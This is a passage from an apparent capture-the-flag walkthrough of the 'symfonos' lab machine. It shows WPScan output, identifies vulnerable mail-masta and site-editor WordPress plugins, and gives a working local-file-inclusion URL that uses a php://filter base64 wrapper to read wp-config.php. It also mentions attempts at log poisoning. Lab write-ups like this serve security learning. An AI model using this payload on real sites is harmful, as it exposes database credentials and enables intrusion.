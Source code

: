 ```
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/plugins/site-editor/readme.txt


[34m[i][0m No Config Backups Found.

[33m[!][0m No WPScan API Token given, as a result vulnerability data has not been output.
[33m[!][0m You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[32m[+][0m Finished: Thu Mar  3 09:31:09 2022
[32m[+][0m Requests Done: 139
[32m[+][0m Cached Requests: 40
[32m[+][0m Data Sent: 37.118 KB
[32m[+][0m Data Received: 19.932 KB
[32m[+][0m Memory used: 225.758 MB
[32m[+][0m Elapsed time: 00:00:04
```

Now that is interesting look go through the plugins we just found.

![image](https://user-images.githubusercontent.com/69868171/156556885-c868fafe-979f-4e61-aee7-d9f4cd22935d.png)

Now that is some old plugins let do research on it if it vulnerable.

![image](https://user-images.githubusercontent.com/69868171/156559316-31261f83-64f1-4b79-9ee5-53d22e20f67b.png)

![image](https://user-images.githubusercontent.com/69868171/156559913-2c08c778-bb0e-49d0-aa9c-f44a15d1c3a8.png)

Boom seems both is vulnerable to LFI the first thing is first that come to my mind is to check for the `wp-config.php` . But was able to use the mail masta LFI to read the config file.

```
http://symfonos.local/h3l105//wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
```

![image](https://user-images.githubusercontent.com/69868171/156565106-05891722-551c-48d9-a00d-e1b32e11f5f8.png)

![image](https://user-images.githubusercontent.com/69868171/156565678-776bfbf9-3c1e-452a-8d93-3e0df2fef0a5.png)

But seems after decoding it and getting the config.php file it not that useful back to our nmap scan to try something else apache log poisoning, SSH log poisoning no luck but we still have a port to try for log poisoning which is SMTP let give it a try.

![image](https://user-images.githubusercontent.com/69868171/156567326-6294bde3-b71e-435f-9cbf-8302bc5f6d18.png)
